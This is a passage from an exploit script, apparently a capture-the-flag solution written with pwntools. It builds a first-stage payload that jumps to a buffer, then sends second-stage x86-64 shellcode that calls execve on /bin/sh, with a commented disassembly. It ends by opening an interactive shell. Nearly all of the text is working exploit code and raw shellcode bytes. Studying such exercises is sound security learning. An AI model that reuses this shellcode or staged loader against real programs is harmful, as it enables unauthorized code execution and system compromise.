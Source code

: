 ```
scan += "\x90"*2

# add    rsi,0x43
scan += "\x48\x83\xc6\x43"

# syscall
scan += "\x0f\x05" 

# jmp rsi
scan += "\xff\xe6"

# send the shellcode, and pause to ensure input is scanned in correctly
target.send(scan)
raw_input()

'''
Secondary shellcode to pop a shell without push/pop
0000000000400080 <_start>:
  400080:	b0 3b                	mov    al,0x3b
  400082:	48 8d 3d f8 ff ff ff 	lea    rdi,[rip+0xfffffffffffffff8]        
  400089:	48 b9 2f 62 69 6e 2f 	movabs rcx,0x68732f6e69622f
  400090:	73 68 00 
  400093:	48 89 0f             	mov    QWORD PTR [rdi],rcx
  400096:	48 31 f6             	xor    rsi,rsi
  400099:	48 31 d2             	xor    rdx,rdx
  40009c:	0f 05                	syscall 
'''
# mov    al,0x3b
shellcode = "\xb0\x3b"

# lea    rdi,[rip+0xfffffffffffffff8]
shellcode += "\x48\x8d\x3d\xf8\xff\xff\xff"

# movabs rcx,0x68732f6e69622f
shellcode += "\x48\xb9\x2f\x62\x69\x6e\x2f"
shellcode += "\x73\x68\x00"

# mov    QWORD PTR [rdi],rcx
shellcode += "\x48\x89\x0f"

#xor    rsi,rsi
shellcode += "\x48\x31\xf6"

#xor    rdx,rdx
shellcode += "\x48\x31\xd2"

#syscall
shellcode += "\x0f\x05"

# Send the secondary shellcoe
target.send(shellcode)

target.interactive()
```
